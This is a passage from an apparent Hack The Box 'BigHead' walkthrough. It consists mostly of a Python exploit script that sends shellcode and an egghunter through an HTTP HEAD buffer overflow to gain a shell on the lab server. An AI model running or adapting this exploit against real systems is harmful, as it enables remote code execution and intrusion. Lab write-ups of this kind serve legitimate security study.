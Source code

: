 ```python
buf += '21380cc6e5d17c5780d5d35881'

# Put the egg before the shellcode so that the gunter can find it.
shellcode = (egg * 2) + binascii.unhexlify(buf)

# Generated from !mona egg -t valo
egghunter = '6681caff0f42526a0258cd2e3c055a74efb8' + binascii.hexlify(egg) + '8bfaaf75eaaf75e7ffe7'

# Send the shell code many times so that the gunter has a better chance of finding it
def send_shellcode(host,port,egg,shellcode):
        print '\033[32m [*] Sending Shellcode'
        for i in range(0,4):
                thighhigh = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
                thighhigh.connect((host,port))
                thighhigh.send('POST / HTTP/1.1\r\n')
                thighhigh.send('Host: dev.bighead.htb\r\n')
                thighhigh.send('Content-Length: %s\r\n'%len(shellcode))
                thighhigh.send('\r\n')
                thighhigh.send(shellcode+'\r\n')
                thighhigh.send('\r\n')
                print '\033[34m' + '[' + str(i) + '] ' + re.sub(r'\s',' ',thighhigh.recv(12))
                thighhigh.close()
        print '\033[32m [*] Done'

# Send the gunter
def send_egghunter(host,port,egghunter):
        print '\033[32m [*] Sending EggHunter'
        thighhigh = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
        thighhigh.connect((host,port))
        thighhigh.settimeout(None)
        thighhigh.send('HEAD /' + ('V'*72) + 'f0125062' + egghunter + ' HTTP/1.1\r\n')
        thighhigh.send('Host: dev.bighead.htb\r\n')
        thighhigh.send('\r\n')
        print '\033[34m' + re.sub(r'\s',' ',thighhigh.recv(12))
        thighhigh.close()
        print '\033[32m [*] Done'

send_shellcode(host,port,egg,shellcode)
send_egghunter(host,port,egghunter)
```

I've tried to explain the code to the best of my ability in comments. This involves a lot of trial and error to find something that worked. When I execute the script, I have to wait a while and try a few times, but I do get a shell.

![](../HTB-pics/bighead/74.png)
![](../HTB-pics/bighead/75.png)
